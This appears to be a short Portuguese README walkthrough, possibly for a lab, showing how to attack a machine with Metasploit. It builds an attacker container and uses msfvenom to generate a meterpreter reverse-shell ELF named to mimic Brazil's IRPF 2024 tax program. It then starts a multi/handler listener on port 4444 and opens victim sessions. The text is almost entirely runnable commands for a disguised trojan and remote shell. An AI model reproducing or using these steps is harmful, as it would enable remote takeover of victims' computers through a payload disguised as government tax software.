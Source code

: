 # Execução do Ataque

## 1. Sistema Atacante

Criar o container do atacante.

```bash
$ docker build -t attacker .
```

Iniciar o container do atacante.

```bash
$ docker run --rm -it -v $(pwd):/hack attacker bash
```

## 2. Criar o Payload Malicioso

Anotar o IP do container.

```bash
ifconfig
```

Criar o arquivo malicioso que contém o código que possibilita a conexão reversa.

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP_ATACANTE> LPORT=4444 -f elf --smallest > <FILE_NAME>.elf

$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.17.0.2 LPORT=4444 -f elf --smallest > IRPF2024Linux-x86_64v1.5.sh.elf
```
<!-- windows/meterpreter/reverse_tcp -->
<!-- original do governo: IRPF2024Linux-x86_64v1.5.sh.b -->

## 3. Preparação para Captura

Iniciar o MSF Console (interface para o Metasploit Framework) e definir as configurações para interceptar a conexão reversa.

```bash
$ msfconsole

$ use exploit/multi/handler

$ set payload linux/x64/meterpreter/reverse_tcp

$ set LHOST <IP_ATACANTE>
$ set LHOST 172.17.0.2

$ set LPORT 4444
```

Iniciar a escuta da porta definida

```bash
$ exploit -j 
```

E 

## 4. Atacar a Vítima

Uma vez conectado, pesquisar as sessões abertas e acessar a de interesse a partir do ID listado. 

```bash
$ sessions -l

$ sessions -i <Session_ID>
$ sessions -i 1
```
